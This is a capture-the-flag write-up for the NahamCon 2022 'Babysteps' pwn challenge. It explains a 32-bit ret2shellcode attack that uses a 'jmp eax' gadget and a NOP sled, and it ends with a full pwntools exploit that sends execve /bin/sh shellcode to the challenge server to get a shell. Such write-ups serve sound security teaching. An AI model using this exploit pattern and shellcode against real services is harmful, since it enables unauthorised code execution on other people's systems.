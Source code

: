 ```yaml
---
title:  "Babysteps"
date:  2022-05-01
draft:  false
enableToc: false
description: "A classic ret2shellcode with a twist, we use a gadget to execute our code off the stack. binary is 32-bit."
tags:
- pwn
- NahamCTF22
image: "images/thumbnails/babysteps.png"
---
```




## Checksec
It's an aboslute mess, nothing is turned on fortunately :)
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

## Exploitation
### 1. EIP Control
We obtain our offset very easily in GEF.
![](./babysteps_offset.png)

<center>

![](/img/ach_offset.png)

</center>

### 2. Exploitation
We start by analyzing the stack at the overflown state.
![](./babysteps_stackstate.png)

Looking at the registers, It appears that only two registers point to our stack. `eax` and `esp`.

We search for gadgets jumping to any of these registers.
```
gef➤  ropper --search jmp
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp

[INFO] File: /home/hegz/HDD/Cyber/CTF/NahamCon/Babysteps/babysteps

0x08049545: jmp eax;
```

We find a `jmp eax` gadget, this is perfect.

`eax` seems to point to the start of our buffer too.

Knowing that our offset to EIP is 28-bytes, this leaves us with two options:
1. Squeeze a shellcode in these 28 bytes and execute it by jumping to the start of the buffer using the `jmp eax` gadget.
2. Write our shellcode after the 28 bytes and pad the buffer with a NOP sled to our shellcode.

Option 1 wasn't successful due to the length of most execve shellcodes, the smallest execve shellcode I could find was 24-bytes in size and It leveraged the stack to expand further beyod these 24-bytes using multiple push instructions, this made my shellcode overflow itself, hence I was screaming at my keyboard on twitter.

<blockquote class="twitter-tweet" data-dnt="true" data-theme="dark"><p lang="en" dir="ltr">you know you should stop when your overflown shellcode overflows itself...</p>&mdash; hegz (@hegzploit) <a href="https://twitter.com/hegzploit/status/1519840156487929861?ref_src=twsrc%5Etfw">April 29, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

This lead us to just pad the buffer with nops and put our shellcode after `EIP`.

Here's our exploit.

```python
from pwn import *

context.binary = e = ELF("./babysteps")
context.encoding = 'latin'

if args['REMOTE']:
    io = remote("challenge.nahamcon.com", 30369)
elif args['GDB']:
    # Breaks at RTN instruction.
    io = gdb.debug(context.binary.path, f"""
    b *0x080492d0
""")
else:
    io = e.process()

OFFSET = 28
jmp_eax = 0x08049545
# Shellcode from http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

io.clean(0.5)
io.fit(
    {OFFSET : p32(jmp_eax),
     OFFSET + 4 * 5 : shellcode},
    filler=b"\x90")
io.interactive()
```

<center>

![](/images/mc/ach_shell.png)

</center>
